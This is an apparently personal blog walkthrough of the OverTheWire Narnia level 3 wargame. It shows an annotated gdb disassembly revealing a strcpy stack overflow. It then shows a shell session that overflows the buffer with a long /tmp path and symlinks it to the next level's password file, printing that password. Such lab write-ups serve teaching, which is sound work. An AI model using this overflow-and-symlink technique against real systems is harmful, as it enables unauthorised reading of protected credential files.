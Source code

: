 +++
title = "Over the wire - narnia03"
description = "Walk-through"
date ="2016-03-09"
draft = true
publishdate ="2016-03-09"
categories = ["security"]
tags = ["assembly", "linux", "binary"]
slug =  "over-the-wire-narnia-03"
project_url = "https://greyhat.dk/over-the-wire-narnia-03"
type = "post"
+++



(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
   0x0804851d <+0>:	push   ebp
   0x0804851e <+1>:	mov    ebp,esp
   0x08048520 <+3>:	and    esp,0xfffffff0
   0x08048523 <+6>:	sub    esp,0x70
   0x08048526 <+9>:	mov    DWORD PTR [esp+0x58],0x7665642f ; "/dev"
   0x0804852e <+17>:	mov    DWORD PTR [esp+0x5c],0x6c756e2f ; "/nul"
   0x08048536 <+25>:	mov    DWORD PTR [esp+0x60],0x6c ; "l"
   0x0804853e <+33>:	mov    DWORD PTR [esp+0x64],0x0  ; \0
   0x08048546 <+41>:	cmp    DWORD PTR [ebp+0x8],0x2   ; argc==2
   0x0804854a <+45>:	je     0x804856d <main+80>
   0x0804854c <+47>:	mov    eax,DWORD PTR [ebp+0xc]   ; argv
   0x0804854f <+50>:	mov    eax,DWORD PTR [eax]
   0x08048551 <+52>:	mov    DWORD PTR [esp+0x4],eax
   0x08048555 <+56>:	mov    DWORD PTR [esp],0x8048710 ; "usage, %s file, will send contents of file 2 /dev/null\n"
   0x0804855c <+63>:	call   0x80483a0 <printf@plt>
   0x08048561 <+68>:	mov    DWORD PTR [esp],0xffffffff
   0x08048568 <+75>:	call   0x80483d0 <exit@plt>
   0x0804856d <+80>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048570 <+83>:	add    eax,0x4
   0x08048573 <+86>:	mov    eax,DWORD PTR [eax]
   0x08048575 <+88>:	mov    DWORD PTR [esp+0x4],eax
   0x08048579 <+92>:	lea    eax,[esp+0x38]
   0x0804857d <+96>:	mov    DWORD PTR [esp],eax
   0x08048580 <+99>:	call   0x80483b0 <strcpy@plt> ; strcpy(ebp+0xc,esp+0x38 )
   0x08048585 <+104>:	mov    DWORD PTR [esp+0x4],0x2 ; O_RDWR
   0x0804858d <+112>:	lea    eax,[esp+0x58]     ; 0x58-0x38 = 32 bytes
   0x08048591 <+116>:	mov    DWORD PTR [esp],eax
   0x08048594 <+119>:	call   0x80483e0 <open@plt>   ; open("/dev/null", O_RDWR)
   0x08048599 <+124>:	mov    DWORD PTR [esp+0x6c],eax ; 
   0x0804859d <+128>:	cmp    DWORD PTR [esp+0x6c],0x0
   0x080485a2 <+133>:	jns    0x80485c4 <main+167>   ; if open
   0x080485a4 <+135>:	lea    eax,[esp+0x58]
   0x080485a8 <+139>:	mov    DWORD PTR [esp+0x4],eax
   0x080485ac <+143>:	mov    DWORD PTR [esp],0x8048748
   0x080485b3 <+150>:	call   0x80483a0 <printf@plt>
   0x080485b8 <+155>:	mov    DWORD PTR [esp],0xffffffff
   0x080485bf <+162>:	call   0x80483d0 <exit@plt>
   0x080485c4 <+167>:	mov    DWORD PTR [esp+0x4],0x0  ; O_RDONLY
   0x080485cc <+175>:	lea    eax,[esp+0x38]
   0x080485d0 <+179>:	mov    DWORD PTR [esp],eax
   0x080485d3 <+182>:	call   0x80483e0 <open@plt> ; open ("/etc/narnia_pass/narnia4", O_RDONLY)
   0x080485d8 <+187>:	mov    DWORD PTR [esp+0x68],eax ; result of open
   0x080485dc <+191>:	cmp    DWORD PTR [esp+0x68],0x0
   0x080485e1 <+196>:	jns    0x8048603 <main+230>
   0x080485e3 <+198>:	lea    eax,[esp+0x38]
   0x080485e7 <+202>:	mov    DWORD PTR [esp+0x4],eax
   0x080485eb <+206>:	mov    DWORD PTR [esp],0x8048748
   0x080485f2 <+213>:	call   0x80483a0 <printf@plt>
   0x080485f7 <+218>:	mov    DWORD PTR [esp],0xffffffff
   0x080485fe <+225>:	call   0x80483d0 <exit@plt>
   0x08048603 <+230>:	mov    DWORD PTR [esp+0x8],0x1f ; 
   0x0804860b <+238>:	lea    eax,[esp+0x18]
   0x0804860f <+242>:	mov    DWORD PTR [esp+0x4],eax
   0x08048613 <+246>:	mov    eax,DWORD PTR [esp+0x68]
   0x08048617 <+250>:	mov    DWORD PTR [esp],eax
   0x0804861a <+253>:	call   0x8048390 <read@plt>
   0x0804861f <+258>:	mov    DWORD PTR [esp+0x8],0x1f
   0x08048627 <+266>:	lea    eax,[esp+0x18]
   0x0804862b <+270>:	mov    DWORD PTR [esp+0x4],eax
   0x0804862f <+274>:	mov    eax,DWORD PTR [esp+0x6c]
   0x08048633 <+278>:	mov    DWORD PTR [esp],eax
   0x08048636 <+281>:	call   0x8048400 <write@plt>
   0x0804863b <+286>:	lea    eax,[esp+0x58]
   0x0804863f <+290>:	mov    DWORD PTR [esp+0x8],eax
   0x08048643 <+294>:	lea    eax,[esp+0x38]
   0x08048647 <+298>:	mov    DWORD PTR [esp+0x4],eax
   0x0804864b <+302>:	mov    DWORD PTR [esp],0x804875c
   0x08048652 <+309>:	call   0x80483a0 <printf@plt>
   0x08048657 <+314>:	mov    eax,DWORD PTR [esp+0x68]
   0x0804865b <+318>:	mov    DWORD PTR [esp],eax
   0x0804865e <+321>:	call   0x8048410 <close@plt>
   0x08048663 <+326>:	mov    eax,DWORD PTR [esp+0x6c]
   0x08048667 <+330>:	mov    DWORD PTR [esp],eax
   0x0804866a <+333>:	call   0x8048410 <close@plt>
   0x0804866f <+338>:	mov    DWORD PTR [esp],0x1
   0x08048676 <+345>:	call   0x80483d0 <exit@plt>
End of assembler dump.
(gdb)


narnia3@melinda:/tmp/Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa/tmp$ ln -s /etc/narnia_pass/narnia4 desdicpw
narnia3@melinda:/tmp/Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa/tmp$ /narnia/narnia4 /tmp/Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa/tmp/desdicpw
-bash: /narnia/narnia4: Permission denied
narnia3@melinda:/tmp/Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa/tmp$ /narnia/narnia3 /tmp/Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa/tmp/desdicpw
error opening tmp/desdicpw
narnia3@melinda:/tmp/Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa/tmp$ cd ..
narnia3@melinda:/tmp/Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa$ cd ..
narnia3@melinda:/tmp$ cd ..
narnia3@melinda:/$ ls tmp/desdicpw
tmp/desdicpw
narnia3@melinda:/$ /narnia/narnia3 /tmp/Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa/tmp/desdicpw
copied contents of /tmp/Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa/tmp/desdicpw to a safer place... (tmp/desdicpw)
narnia3@melinda:/$ cat tmp/desdicpw
thaenohtai
������
      ��So���narnia3@melinda:/$

